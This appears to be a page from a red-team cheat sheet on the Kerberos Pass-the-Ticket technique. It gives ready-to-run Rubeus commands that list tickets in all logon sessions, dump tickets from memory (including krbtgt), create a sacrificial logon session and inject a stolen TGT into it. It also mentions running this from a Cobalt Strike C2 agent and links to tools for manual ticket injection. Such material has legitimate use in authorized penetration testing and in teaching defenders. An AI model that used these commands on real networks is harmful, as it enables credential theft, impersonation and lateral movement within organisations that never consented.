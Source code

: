 # Pass-the-Ticket




## Rubeus

Show Kerberos tickets in all logon sessions if elevated (otherwise it will only show tickets in current logon session):

```
PS > .\Rubeus.exe triage
```

Extract the tickets from memory:

```
PS > .\Rubeus.exe dump [/service:krbtgt] [/luid:0x1337] /nowrap
```

Create a sacrificial process ([Logon type 9](https://ss64.com/nt/syntax-logon-types.html)) and import the TGT into its logon session:

```
PS > .\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /show
PS > .\Rubeus.exe ptt /luid:0x1337 /ticket:<BASE64_TICKET>
```

{% hint style="info" %}
If operating Rubeus from a C2 agent, you can [steal_token](/redteam/cobalt-strike.md#pass-the-ticket) instead of using `/show` option.
{% endhint %}

{% hint style="success" %}
You can also extract and reuse TGS tickets with this technique.
{% endhint %}




## Manual Tickets Injection

- [https://github.com/OtterHacker/Cerbere](https://github.com/OtterHacker/Cerbere)
- [https://xakep.ru/2023/04/04/no-mimikatz/](https://xakep.ru/2023/04/04/no-mimikatz/)
- [https://github.com/MzHmO/articles/tree/main/Ticket%20Injector](https://github.com/MzHmO/articles/tree/main/Ticket%20Injector)
- [https://github.com/MzHmO/PowershellKerberos](https://github.com/MzHmO/PowershellKerberos)
